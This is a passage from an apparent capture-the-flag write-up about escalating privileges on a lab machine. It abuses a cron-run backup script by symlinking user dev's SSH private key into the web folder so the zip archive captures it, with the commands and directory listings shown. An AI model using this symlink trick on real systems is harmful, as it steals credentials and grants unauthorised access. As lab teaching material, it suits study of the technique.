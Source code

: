 ### Privilege escalation 1
Enumerating the system we find an interesting bash script `/usr/bin/webbackup`:
```bash
#!/bin/bash
set -euf -o pipefail
cd /var/www/
SRC=/var/www/html
DST="/var/www/$(date +%Y-%m-%d_%H-%M-%S)-html.zip"
/usr/bin/rm --force -- "$DST"
/usr/bin/zip --recurse-paths "$DST" "$SRC"
KEEP=10
/usr/bin/find /var/www/ -maxdepth 1 -name '*.zip' -print0 \
    | sort --zero-terminated --numeric-sort --reverse \
    | while IFS= read -r -d '' backup; do
        if [ "$KEEP" -le 0 ]; then
            /usr/bin/rm --force -- "$backup"
        fi
        KEEP="$((KEEP-1))"
    done
```

If we look at `/var/www`:
```
www-data@retired:/var/www$ ls -la
total 2008
drwxrwsrwx  3 www-data www-data   4096 Apr 29 04:20 .
drwxr-xr-x 12 root     root       4096 Mar 11 14:36 ..
-rw-r--r--  1 www-data www-data 505153 Apr 29 04:18 2022-04-29_04-18-04-html.zip
-rw-r--r--  1 dev      www-data 505153 Apr 29 04:18 2022-04-29_04-18-06-html.zip
-rw-r--r--  1 dev      www-data 505153 Apr 29 04:19 2022-04-29_04-19-06-html.zip
-rw-r--r--  1 dev      www-data 505153 Apr 29 04:20 2022-04-29_04-20-06-html.zip
drwxrwsrwx  5 www-data www-data   4096 Mar 11 14:36 html
-rw-r--r--  1 www-data www-data  12288 Apr 29 04:05 license.sqlite
```

It seems that the user `dev` is making use of this script at every minute to make a backup of the web files.

Create symlink to user `dev` SSH private key:
```bash
www-data@retired:/var/www/html$ ln -s /home/dev/.ssh/id_rsa dev_key
www-data@retired:/var/www/html$ ls -la
total 48
drwxrwsrwx 5 www-data www-data  4096 Apr 29 04:29 .
drwxrwsrwx 3 www-data www-data  4096 Apr 29 04:29 ..
-rw-rwSrw- 1 www-data www-data   585 Oct 13  2021 activate_license.php
drwxrwsrwx 3 www-data www-data  4096 Mar 11 14:36 assets
-rw-rwSrw- 1 www-data www-data  4144 Mar 11 11:34 beta.html
drwxrwsrwx 2 www-data www-data  4096 Mar 11 14:36 css
-rw-rwSrw- 1 www-data www-data 11414 Oct 13  2021 default.html
lrwxrwxrwx 1 www-data www-data    21 Apr 29 04:29 dev_key -> /home/dev/.ssh/id_rsa
-rw-rwSrw- 1 www-data www-data   348 Mar 11 11:29 index.php
drwxrwsrwx 2 www-data www-data  4096 Mar 11 14:36 js
```
